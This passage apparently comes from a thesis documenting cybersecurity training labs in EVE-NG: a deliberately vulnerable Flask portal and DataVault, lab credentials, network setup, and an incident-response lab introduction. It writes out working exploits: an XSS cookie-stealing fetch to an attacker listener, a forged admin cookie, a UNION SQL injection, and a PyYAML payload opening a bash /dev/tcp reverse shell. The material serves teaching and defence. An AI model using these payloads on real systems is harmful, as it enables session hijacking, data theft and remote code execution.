  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
System
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
User
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Password
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Access
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
EVE-NG host & root & SSH key id\_ed25519\_eve-ng & ssh eve-ng \\
pfSense-LAB2 & admin & pfsense & VNC 32773 / SSH 192.168.0.x \\
VyOS-LAB2 & vyos & vyos & Telnet 32770 \\
Server-A OS & ubuntu & S3rv3rA & SSH 192.168.30.x \\
Server-A Portal (admin) & admin & Admin@Synapse2024 & \url{http://192.168.30.x/login} \\
Server-A Portal (guest) & guest & guest123 & \url{http://192.168.30.x/login} \\
Server-B OS & ubuntu & S3rv3rB & SSH 192.168.30.x \\
Server-B DataVault & operator & D4t4V4ult\#2024 & \url{http://192.168.30.x/login} \\
Parrot OS & lab2 & L4b2 & SSH 10.0.40.x \\
\end{longtable}}

\subsection{Deployed applications}

\subsubsection{Server-A --- SYNAPSE Intelligence Portal}

\begin{itemize}
\tightlist
\item
  \textbf{Path:} \path{/opt/synapse/}
\item
  \textbf{Stack:} Flask 3.x + SQLite + nginx + Playwright victim bot
\item
  \textbf{Command:} \texttt{cd\ /opt/synapse\ \&\&\ docker-compose\ up\ -d} (docker-compose v1.29.2)
\item
  \textbf{Containers:} \path{synapse_flask_1} (port 5000), \path{synapse_nginx_1} (port 80), \path{synapse_victim}
\end{itemize}

\begin{lstlisting}
/opt/synapse/
|---- app/
|   |---- app.py           # Flask application (XSS, broken auth, SQLi, admin panel)
|   |---- init_db.py       # DB schema + seed data (flags, credentials)
|   |---- requirements.txt
|   \---- templates/
|       |---- login.html
|       |---- portal.html  # main portal (reports)
|       |---- comments.html # XSS sink
|       |---- search.html  # SQLi sink
|       |---- admin.html   # admin panel (FLAG#2 + Server-B creds)
|       \---- forbidden.html
|---- docker-compose.yml
|---- nginx/default.conf
\---- victim/victim.py     # Playwright bot (visits /comments every 20s)
\end{lstlisting}

\textbf{Database tables:}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Table & Contents \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
users & admin/Admin@Synapse2024, guest/guest123 (MD5 passwords) \\
reports & 5 dummy intel reports \\
comments & XSS sink --- rendered with \texttt{\textbackslash{}\textbar{}\ safe} filter \\
admin\_users & FLAG \\
classified\_intel & FLAG + operator/D4t4V4ult\#2024 \\
\end{longtable}}

\subsubsection{Server-B --- SYNAPSE DataVault}

\begin{itemize}
\tightlist
\item
  \textbf{Path:} \path{/opt/datavault/}
\item
  \textbf{Stack:} Flask + PyYAML 6.x (Docker Compose v2)
\item
  \textbf{Command:} \texttt{cd\ /opt/datavault\ \&\&\ sudo\ docker\ compose\ up\ -d}
\item
  \textbf{Container:} datavault-flask (port 80$\rightarrow$5000)
\end{itemize}

\begin{lstlisting}
/opt/datavault/
|---- app/
|   |---- app.py           # Flask app (YAML UnsafeLoader vuln in /preview)
|   \---- templates/
|       |---- login.html
|       |---- index.html
|       \---- preview.html
|---- data/
|   \---- finalData.txt    # FLAG
|---- uploads/             # user upload dir (runtime)
\---- docker-compose.yml
\end{lstlisting}

\subsection{Lab startup procedure}

\begin{lstlisting}
# 1. EVE-NG host --- restore bridge IPs after reboot
bash /usr/local/bin/lab2-bridges-up.sh

# 2. Start pfSense (UEFI mode)
/usr/local/bin/pfsense-lab2-start.sh

# 3. Server-A
sshpass -p S3rv3rA ssh ubuntu@192.168.30.x
cd /opt/synapse && docker-compose up -d
docker-compose ps   # flask, nginx, victim all Up

# 4. Server-B
sshpass -p S3rv3rB ssh ubuntu@192.168.30.x
cd /opt/datavault && sudo docker compose up -d
sudo docker compose ps  # datavault-flask Up

# 5. Parrot --- apply static IP each session
sudo ip addr add 10.0.40.x/24 dev ens4
sudo ip route add default via 10.0.40.1
\end{lstlisting}

\subsection{Flags summary}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\#
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Flag
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Location
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
How to reach
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
1 & FLAG & admin\_users table & UNION SQLi on \path{/search} \\
2 & FLAG & classified\_intel table & \path{/admin} with forged admin cookie \\
3 & FLAG & \path{/app/data/finalData.txt} (Server-B) & YAML deserialization $\rightarrow$ reverse shell \\
\end{longtable}}

\section{LAB2 -- VyOS Router}

VyOS-LAB2 provides routing between pfSense, the DMZ (Server-A, Server-B), and the attacker network (Parrot).

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Interfaces}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Interface & IP & Network & Description \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
eth0 & 172.16.x.x/30 & Net-Link & Uplink to pfSense LAN \\
eth1 & 192.168.30.x/24 & Net-DMZ & Gateway for servers \\
eth2 & 10.0.40.x/24 & Net-Attackers & Gateway for Parrot \\
\end{longtable}}

\subsection{Access}

\begin{lstlisting}
# Console only (SSH daemon not enabled by default after reboot):
ssh eve-ng "telnet localhost 32770"
# user: vyos / vyos
\end{lstlisting}

\begin{lstlisting}
VyOS SSH daemon sometimes fails to respond after an EVE-NG host reboot despite being configured.
Console access via telnet :32770 always works.
\end{lstlisting}

\subsection{NAT rules}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Rule & Source & Action \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
10 & 10.0.40.0/24 & masquerade via eth0 \\
20 & 192.168.30.0/24 & masquerade via eth0 \\
\end{longtable}}

\subsection{DNS forwarding}

\begin{itemize}
\tightlist
\item
  Listens on: \texttt{192.168.30.x}, \texttt{10.0.40.x}
\item
  Allows queries from: \path{192.168.30.0/24}, \path{10.0.40.0/24}
\end{itemize}

\subsection{Static host mappings}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Hostname & IP \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
attacker.lab2.internal & 10.0.40.x \\
server-a.lab2.internal & 192.168.30.x \\
server-b.lab2.internal & 192.168.30.x \\
router.lab2.internal & 192.168.30.x \\
\end{longtable}}

\subsection{Default route}

\begin{lstlisting}
0.0.0.0/0 via 172.16.x.x (pfSense LAN)
\end{lstlisting}

\section{LAB2 -- Server-A (SYNAPSE Intelligence Portal)}

Server-A hosts the SYNAPSE Intelligence Portal --- a deliberately vulnerable Flask web application deployed via Docker Compose.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Access}

\begin{lstlisting}
sshpass -p S3rv3rA ssh ubuntu@192.168.30.x
# From EVE-NG host with bridge vnet0_2 active (IP 192.168.30.x/24)
\end{lstlisting}

\subsection{System}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
OS & Ubuntu 24.04.3 LTS \\
Hostname & server-a-synapse \\
IP & 192.168.30.x/24 \\
Gateway & 192.168.30.x (VyOS eth1) \\
App path & /opt/synapse/ \\
\end{longtable}}

\subsection{Docker Compose stack}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Container & Image & Role & Port \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\path{synapse_flask_1} & python:3.11-slim & Flask app & 5000 (internal) \\
\path{synapse_nginx_1} & nginx:alpine & Reverse proxy & 80 (public) \\
\path{synapse_victim} & \path{playwright/python:v1.58.0-noble} & Bot victim & --- \\
\end{longtable}}

\begin{lstlisting}
cd /opt/synapse
docker compose up -d
docker compose ps
\end{lstlisting}

\subsection{Database schema (SQLite)}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Table & Contents \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
users & Login credentials (admin, guest) --- passwords MD5 \\
reports & Intelligence reports (5 dummy rows) \\
comments & User-submitted comments --- \textbf{XSS sink} \\
admin\_users & Lateral movement creds (monitor / M0nit0r2024) + flag \\
\end{longtable}}

\subsection{\texorpdfstring{Vulnerability 1 --- Stored XSS ({\ttfamily /comments})}{Vulnerability 1 --- Stored XSS (/comments)}}

Comments are rendered without sanitisation:

\begin{lstlisting}
<div class="body">}</div>
\end{lstlisting}

The session cookie has \texttt{HttpOnly=False}:

\begin{lstlisting}
resp.set_cookie('session',
    f"::",
    httponly=False)
\end{lstlisting}

\textbf{Exploit} --- post this comment to steal the victim bot's cookie:

\begin{lstlisting}
<script>
fetch('http://10.0.40.x:8000/?c=' + encodeURIComponent(document.cookie));
</script>
\end{lstlisting}

Start listener on Parrot first:

\begin{lstlisting}
python3 -m http.server 8000
\end{lstlisting}

The victim bot visits \path{/comments} every \textasciitilde20 seconds. The cookie arrives in the listener log within one cycle.

\subsection{Vulnerability 2 --- Broken Authentication}

The session cookie format is \texttt{ID:ROLE:USERNAME} with no cryptographic signature:

\begin{lstlisting}
parts = session.split(':')
role = parts[1] if len(parts) > 1 else 'guest'
\end{lstlisting}

\textbf{Exploit} --- forge admin cookie in browser console:

\begin{lstlisting}
document.cookie = "session=1admin; path=/"
\end{lstlisting}

Immediately grants admin access without knowing the password.

\subsection{\texorpdfstring{Vulnerability 3 --- UNION SQL Injection ({\ttfamily /search})}{Vulnerability 3 --- UNION SQL Injection (/search)}}

The search route concatenates user input directly into the SQL query:

\begin{lstlisting}
query = "SELECT * FROM reports WHERE title LIKE '%" + q + "%'"
\end{lstlisting}

SQL errors are displayed in the browser. The \texttt{reports} table has 5 columns.

\textbf{Exploit} --- dump \path{admin_users} table:

\begin{lstlisting}
' UNION SELECT 1,username,flag,password,5 FROM admin_users--
\end{lstlisting}

Returns: \texttt{FLAG} --- \textbf{FLAG \#1} plus credentials in the flag column.

\subsection{Vulnerability 4 --- Admin Panel (Broken Access Control)}

After forging the admin cookie, navigate to \path{/admin} --- only accessible to users with \texttt{role=admin}.

The admin panel queries the \path{classified_intel} table and displays classified intelligence posts. One entry contains:

\begin{itemize}
\tightlist
\item
  \textbf{FLAG} --- \textbf{FLAG \#2}
\item
  Server-B DataVault credentials: \texttt{operator\ /\ D4t4V4ult\#2024}
\end{itemize}

\textbf{Exploit} --- with admin cookie active, browse to \path{/admin}.

\subsection{Attack chain summary (Server-A)}

\begin{lstlisting}
1. POST XSS payload to /comments
2. Wait ~20s -> victim cookie arrives on listener (python3 -m http.server 8000)
3. Forge admin cookie (broken auth) -> access /portal and /search
4. UNION SQLi on \path{/search} -> FLAG (FLAG #1)
5. Browse /admin -> FLAG (FLAG #2)
              -> Obtain: operator / D4t4V4ult#2024 (Server-B DataVault)
6. Continue to Server-B DataVault -> YAML deserialization -> FLAG #3
\end{lstlisting}

\section{LAB2 -- Server-B (SYNAPSE DataVault)}

Server-B hosts the SYNAPSE DataVault --- a Flask application with an intentional YAML insecure deserialization vulnerability (OWASP A08). The objective is to upload a malicious YAML file, trigger remote code execution via a reverse shell, and exfiltrate the final flag from \path{/app/data/finalData.txt}.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Access}

\begin{lstlisting}
sshpass -p S3rv3rB ssh ubuntu@192.168.30.x  # Server-B IP
# From EVE-NG host with bridge vnet0_2 active (IP 192.168.30.x/24)
\end{lstlisting}

Web application accessible at: \path{http://192.168.30.x} (port 80)

\subsection{System}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
OS & Ubuntu 24.04.3 LTS \\
Hostname & server-b-monitor \\
IP & 192.168.30.x/24 \\
Gateway & 192.168.30.x (VyOS eth1) \\
App path & /opt/datavault/ \\
\end{longtable}}

\subsection{Docker stack}

\begin{lstlisting}
cd /opt/datavault && sudo docker compose up -d
sudo docker compose ps   # datavault-flask Up, port 80->5000
\end{lstlisting}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Container & Image & Port \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
datavault-flask & python:3.11-slim & 80-\textgreater5000 \\
\end{longtable}}

\subsection{Application --- SYNAPSE DataVault}

The DataVault is a file management portal for uploading and previewing corporate data files.

\textbf{Credentials:} \texttt{operator} / \texttt{D4t4V4ult\#2024}\\
(Found in Server-A admin panel after completing FLAG \#2)

\textbf{Routes:} \textbar{} Route \textbar{} Description \textbar{} \textbar-------\textbar-------------\textbar{} \textbar{} \path{/} \textbar{} File listing \textbar{} \textbar{} \path{/login} \textbar{} Login form \textbar{} \textbar{} \path{/upload} \textbar{} File upload (PDF, TXT, YAML, YML) \textbar{} \textbar{} \texttt{/preview/\textless{}filename\textgreater{}} \textbar{} Preview uploaded file \textbar{} \textbar{} \texttt{/download/\textless{}filename\textgreater{}} \textbar{} Download uploaded file \textbar{}

\subsection{Vulnerability --- YAML Insecure Deserialization (OWASP A08)}

The preview route loads YAML files using \texttt{yaml.UnsafeLoader}:

\begin{lstlisting}
# VULNERABLE CODE --- intentional for lab
parsed = str(yaml.load(raw, Loader=yaml.UnsafeLoader))
\end{lstlisting}

\texttt{yaml.UnsafeLoader} (equivalent to \texttt{yaml.load} without Loader argument) allows instantiation of arbitrary Python objects, including \texttt{os.system}. This enables unauthenticated remote code execution when previewing a crafted YAML file.

\textbf{Why it is dangerous:} PyYAML's \path{!!python/object/apply:} tag calls any Python callable with attacker-controlled arguments. With \texttt{UnsafeLoader}, there is no restriction on which callables can be invoked.

\textbf{Secure alternative:} \path{yaml.safe_load()} --- only parses standard YAML types.

\subsection{Exploit --- Reverse Shell via YAML Upload}

\subsubsection{Step 1 --- Start listener on Parrot}

\begin{lstlisting}
nc -lvnp 4444
\end{lstlisting}

\subsubsection{Step 2 --- Create malicious YAML payload}

\begin{lstlisting}
echo '!!python/object/apply:os.system ["bash -c '"'"'bash -i >& /dev/tcp/10.0.40.x/4444 0>&1'"'"'"]' > exploit.yml
\end{lstlisting}

Or manually create \texttt{exploit.yml}:

\begin{lstlisting}
!!python/object/apply:os.system
- "bash -c 'bash -i >& /dev/tcp/10.0.40.x/4444 0>&1'"
\end{lstlisting}

\subsubsection{Step 3 --- Upload and trigger}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Browse to \path{http://192.168.30.x} --- login as \texttt{operator\ /\ D4t4V4ult\#2024}
\item
  Upload \texttt{exploit.yml} via the upload form
\item
  Click \textbf{Preview} on \texttt{exploit.yml}
\item
  Reverse shell arrives on the \texttt{nc} listener
\end{enumerate}

\subsubsection{Step 4 --- Exfiltrate the flag}

\begin{lstlisting}
# In the reverse shell:
cat /app/data/finalData.txt
\end{lstlisting}

Returns \texttt{FLAG} --- \textbf{FLAG \#3}

\subsection{Flag location}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Flag
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Location
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
How to reach
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
FLAG & \path{/app/data/finalData.txt} (inside container) & Reverse shell via YAML deserialization \\
\end{longtable}}

\section{LAB2 -- Flask Application (Synapse)}

The \texttt{flask} container runs \textbf{Synapse}, a minimal Python web application built with Flask 3.0. It is intentionally vulnerable and acts as the target for the XSS and session hijacking exercises.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Network parameters}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Internal hostname & \texttt{flask} (Docker DNS) \\
Internal port & \texttt{5000} \\
Exposed via & nginx on port \texttt{80} \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Key routes}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Route
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Auth required
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Description
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\path{/} & No & Redirects to \path{/login} \\
\path{/login} & No & Login form --- POST authenticates the user \\
\path{/logout} & No & Clears the session cookie \\
\path{/comments} & No & Public comment wall --- \textbf{Stored XSS entry point} \\
\path{/search} & Yes & Internal search --- \textbf{SQLi entry point} (Lab 2 ext.) \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Session mechanism}

Synapse identifies authenticated users with a plain-text cookie:

\begin{lstlisting}
session=<id>:<username>:<role>
\end{lstlisting}

Example for the \texttt{guest} user:

\begin{lstlisting}
session=2guest
\end{lstlisting}

The server reads this cookie on every request and trusts it unconditionally. There is no HMAC signing or server-side session store.

\begin{lstlisting}
The session cookie is issued \textbf{without} the `HttpOnly` attribute.
Any JavaScript running in the page context can read it via `document.cookie`.
This is the root cause that makes the XSS -> session hijack chain possible.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Database}

Synapse uses a SQLite database stored at \path{/opt/synapse/synapse.db}, persisted via the \texttt{synapse-db} Docker volume so data survives container restarts.

Seeded users:

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
ID & Username & Password & Role \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
1 & \texttt{admin} & \texttt{admin123} & admin \\
2 & \texttt{guest} & \texttt{guest123} & guest \\
\end{longtable}}

Comments table schema:

\begin{lstlisting}
CREATE TABLE comments (
    id      INTEGER PRIMARY KEY AUTOINCREMENT,
    author  TEXT,
    content TEXT   -- rendered with |safe in Jinja2, no HTML escaping
);
\end{lstlisting}

\begin{lstlisting}
The comments template renders `content` with the `|safe` filter, which disables
Jinja2's automatic HTML escaping. Any HTML or JavaScript inserted as a comment
is rendered verbatim by the browser.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Vulnerability surface}

\begin{lstlisting}
POST /comments
  \---- content field (no sanitisation)
        \---- stored raw in SQLite
              \---- rendered with |safe in Jinja2 template
                    \---- executed by every browser that loads /comments
\end{lstlisting}

The victim bot authenticates as \texttt{guest} and loads \path{/comments} every \textasciitilde20 s, providing a reliable and repeatable trigger for any stored payload.

\section{LAB2 -- nginx Reverse Proxy}

The \texttt{nginx} container is the only service with a port published to the host network. It receives all inbound HTTP traffic from the Attacker and forwards it to the Flask application using Docker's internal DNS.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Network parameters}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Public IP & \texttt{192.168.30.x} \\
Published port & \texttt{80} \\
Upstream & \path{http://flask:5000} \\
Config file path & \path{./nginx/default.conf} \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Configuration}

\begin{lstlisting}
server 
}
\end{lstlisting}

All requests are forwarded transparently to the \texttt{flask} container. No TLS is configured --- intentional for the lab environment.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Connectivity verification}

From the Attacker (Parrot):

\begin{lstlisting}
curl -v \url{http://192.168.30.x/login}
# Expected: HTTP 200 with Synapse login page HTML
\end{lstlisting}

From inside the Docker host:

\begin{lstlisting}
curl -v http://localhost/login
\end{lstlisting}

\begin{lstlisting}
Watch nginx access logs while running the exercise to confirm the victim bot
is hitting `/comments` on schedule:

```bash
docker compose logs -f nginx
```
\end{lstlisting}

\section{LAB2 -- Victim Bot (Playwright)}

The \texttt{victim} container simulates an \textbf{authenticated user} who periodically browses the Synapse application. It removes the need for a second physical person to act as the victim --- the bot plays that role automatically and deterministically.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Network parameters}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Container name & \path{synapse_victim} \\
Reaches & \path{http://nginx} (Docker DNS) \\
Published ports & None --- internal only \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Behaviour cycle}

The bot runs \texttt{victim.py} in an infinite loop. Each iteration takes \textasciitilde30 s:

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Step & Action \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
1 & Navigate to \path{http://nginx/login} \\
2 & Fill username \texttt{guest} / password \texttt{guest123} and submit \\
3 & Print cookies obtained after login \\
4 & Navigate to \path{http://nginx/comments} \\
5 & Hold the page open for \textbf{8 seconds} --- XSS fires here \\
6 & Sleep 20 seconds, then repeat \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Source code}

\begin{lstlisting}
import time
from playwright.sync_api import sync_playwright

BASE = "http://nginx"
USER = "guest"
PASS = "guest123"

def run():
    with sync_playwright() as p:
        browser = p.chromium.launch(headless=True)
        context = browser.new_context()
        page = context.new_page()

        while True:
            try:
                page.goto(f"/login", wait_until="networkidle")
                page.fill('input[name="username"]', USER)
                page.fill('input[name="password"]', PASS)
                page.click('button[type="submit"]')
                page.wait_for_timeout(2000)

                page.goto(f"/comments", wait_until="networkidle")
                page.wait_for_timeout(8000)   # XSS payload executes here

            except Exception as e:
                print("victim error:", e)

            time.sleep(20)

if __name__ == "__main__":
    run()
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Why the victim triggers the XSS}

When the bot loads \path{/comments}, Chromium renders the full page HTML including any \texttt{\textless{}script\textgreater{}} tags stored in the comments table. At that moment the browser holds an active session cookie for \texttt{guest}, so \texttt{document.cookie} contains the value the attacker wants to steal.

The 8-second \path{wait_for_timeout} gives the \texttt{fetch()} payload enough time to reach the attacker's listener before the page is navigated away.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Monitoring}

\begin{lstlisting}
docker compose logs -f victim
\end{lstlisting}

Typical output during a normal cycle:

\begin{lstlisting}
[victim] visiting /login
[victim] url after login: http://nginx/comments
[victim] cookies after login: []
[victim] visiting /comments
[victim] url after comments: http://nginx/comments
[victim] cookies before wait: []
\end{lstlisting}

\begin{lstlisting}
Post the XSS comment first, then wait for the next cycle. The bot visits
`/comments` every ~20 s. If the listener receives no request after 40 s,
double-check that port `8000` on `10.0.40.5` is reachable from the Docker
network and that the payload syntax is correct.


Each iteration reuses the same browser context, so the session cookie persists
across cycles without re-authenticating every time. If the container restarts,
a fresh login cycle begins automatically.
\end{lstlisting}



\includepdf[pages=-, scale=0.82, pagecommand={\thispagestyle{plain}}]{/home/overleaf/TFG/TFG/docs/web/docs/assets/official_Documents/lab2-enunciado.pdf}

\includepdf[pages=-, scale=0.82, pagecommand={\thispagestyle{plain}}]{/home/overleaf/TFG/TFG/docs/web/docs/assets/official_Documents/lab2-resolucion.pdf}
\cleardoublepage
\chapter{LAB3 --- Incident Response: HELIX Systems}

\section{LAB3 --- Incident Response · HELIX Systems}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.72\linewidth}@{}}
\toprule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\textbf{Difficulty} & Medium \\
\textbf{Category} & Incident Response · Log Forensics · Blue Team \\
\textbf{Flags} & 3 \\
\textbf{Est.\ time} & 90--120 min \\
\textbf{Key skills} & Log analysis, SSH brute-force forensics, privilege escalation detection, lateral movement \\
\textbf{Nodes} & pfSense · VyOS · Server-Web · Server-DB \\
\end{longtable}}

\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab3}{Lab folder on GitHub} \href{https://github.com/TheEgea/TFG/raw/main/src/eve-ng/topologies/LAB3-IncidentResponse-HELIX.unl}{Download topology (.unl)} \href{../../assets/exercises/lab3-exercise.pdf}{Exercise sheet} \href{../../assets/exercises/lab3-solution.pdf}{Solution guide}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Scenario}

\textbf{HELIX Systems} is a fictional company with a two-tier internal infrastructure. Unlike the previous labs, the student here plays the \textbf{defender} role: the attack has already happened.

An unknown threat actor brute-forced SSH credentials on the web server, escalated privileges via a misconfigured \texttt{sudoers} entry, established persistence with a backdoor account, and moved laterally to the database server to exfiltrate sensitive client data.

The task is to connect to the affected systems, collect and correlate log evidence, and reconstruct the attacker's complete activity timeline as a SOC analyst.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Topology}

\begin{figure}[H]
\centering
